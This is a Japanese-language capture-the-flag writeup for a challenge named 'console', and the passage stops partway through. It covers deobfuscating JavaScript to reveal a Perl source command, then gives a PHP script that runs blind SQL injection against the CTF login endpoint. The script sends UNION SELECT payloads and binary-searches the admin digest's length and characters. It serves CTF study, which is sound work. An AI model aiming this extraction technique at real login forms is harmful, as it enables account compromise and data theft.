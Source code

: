 # Writeup for console

## @mpyw

````
A→B→C→Dの順に解きます。

----------------------------

A. JavaScript Deobfuscation

このツールを使います↓
http://jsbeautifier.org/ 

復元したJavaScriptのソースコードを読むと，sourceコマンドでPerlのソースコードが取得できることがわかります。

----------------------------

B. Blind SQL Injection

is_exists関数の実装に脆弱性があるので，二分探索でadminのdigestを求めます。passwordはvalidateを通す必要があるので，適当なダミー値を入力します。

```
<?php

const NAME = 'admin';
const PASSWORD = 'xyz';

function check($name) {
    static $ch, $password = PASSWORD;
    if (!$ch) {
        $ch = curl_init();
        curl_setopt_array($ch, [
            CURLOPT_URL => 'http://q35.ctf.katsudon.org/login',
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POST => true,
        ]);
    }
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query(compact('name', 'password'), '', '&'));
    return strpos(curl_exec($ch), 'does not exist') === false;
}

function search_length($min, $max) {
    static $name = NAME;
    $pivot = (int)(($min + $max) / 2);
    $id = "' UNION SELECT 1 FROM admin WHERE name = '$name' AND LENGTH(digest) <= $pivot -- ";
    if ($min >= $max) {
        return check($id) ? $min : die("Not Found.\n");
    } else if (check($id)) {
        return search_length($min, $pivot);
    } else {
        return search_length($pivot + 1, $max);
    }
}

function search_digest($length) {
    $result = '';
    for ($i = 1; $i <= $length; ++$i) {
        $result .= search_digest_i($i, 1, 127);
        var_dump($result);
    }
    return $result;
````